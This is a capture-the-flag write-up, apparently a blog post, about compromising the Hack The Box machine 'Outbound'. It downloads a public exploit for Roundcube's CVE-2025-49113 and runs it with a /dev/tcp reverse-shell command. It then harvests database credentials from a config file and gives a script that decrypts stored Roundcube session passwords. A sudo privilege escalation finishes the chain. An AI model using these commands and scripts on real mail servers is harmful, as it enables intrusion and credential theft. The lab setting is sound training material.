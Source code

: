 ```yaml
---
layout: default
title: "Outbound HTB Writeup"
date: 2025-07-20 13:54:00 +0300
categories: [HTBs]
tags: [cybersecurity, hacking, hackthebox, machines]
---
```


# Outbound HTB Writeup

## Importance of This Machine

Hello! Today I want to talk about a machine called **Outbound**. In my opinion, this machine was a great example of how important it is to keep up with cybersecurity news. In June 2025, the mail provider **cock.li** was hacked using a vulnerability identified as **CVE-2025-49113**.

## What is CVE-2025-49113?

**CVE-2025-49113** is an **authenticated remote code execution (RCE)** vulnerability in **Roundcube Webmail**.

## Writeup

### Initial Scanning

I started with an Nmap scan:

<code>
nmap -sV 10.10.11.77
</code>

Only two ports were open:

- SSH (22)
- HTTP (80)

### Exploring the Web Service

When I visited the HTTP port in the browser, I realized I needed to add `mail.outbound.htb` to my `/etc/hosts` file.

After that, accessing the domain revealed a Roundcube login page.

> (I actually remembered this from a previous leak 😅)

According to the information on the [Hack The Box machine page](https://app.hackthebox.com/machines/Outbound), we are given credentials for a user named **tyler**.

---

### Exploiting CVE-2025-49113

I used the public exploit for CVE-2025-49113:

<code>
wget https://raw.githubusercontent.com/fearsoff-org/CVE-2025-49113/refs/heads/main/CVE-2025-49113.php
</code>

Then ran:

<code>
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'sh -i &gt;&amp; /dev/tcp/10.10.14.87/2311 0&gt;&amp;1'"
</code>

> ✅ This gave me a shell as the `www` user!

---

### Enumeration

Inside the web directory, I found the Roundcube configuration file:

<code>
cat /var/www/html/roundcube/config/config.inc.php
</code>

It contained MySQL credentials:

<code>
Username: roundcube  
Password: RCDBPass2025
</code>

I logged into the database:

<code>
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube
</code>

Then ran:

<code>
USE roundcube;  
SELECT * FROM session;
</code>

This revealed base64-encoded serialized session data. After decoding it, I found:

<code>
username|s:5:"jacob";  
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
</code>

---

### Cracking the Password

To decrypt the password, I used the following Python script:

```
from Crypto.Cipher import DES3
from base64 import b64decode
def decrypt_password(encrypted_password, key="rcmail-!24ByteDESkey*Str"):
    try:
        des_key = key.encode('utf-8')  
        data = b64decode(encrypted_password)
        iv = data[:8]  
        ciphertext = data[8:]
        cipher = DES3.new(des_key, DES3.MODE_CBC, iv=iv) 
        decrypted = cipher.decrypt(ciphertext)
        return decrypted.rstrip(b"\0").decode('utf-8', errors='ignore')
    except Exception as e: 
        return f"Error: {str(e)}"
encrypted = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
print(f"Decrypted password: {decrypt_password(encrypted)}")
```

**Output:**

<code>
Decrypted password: ********
</code>

Now, I could log in via SSH using Jacob’s credentials.

---

### Privilege Escalation

Once inside, I ran:

<code>
sudo -l
</code>

I had permission to run a binary called `below`. After some quick research, I found a [privilege escalation exploit](https://github.com/rvizx/CVE-2025-27591) for it.

Running the exploit script gave me **root access**.

---

Thanks for reading! 😄  
Happy hacking!
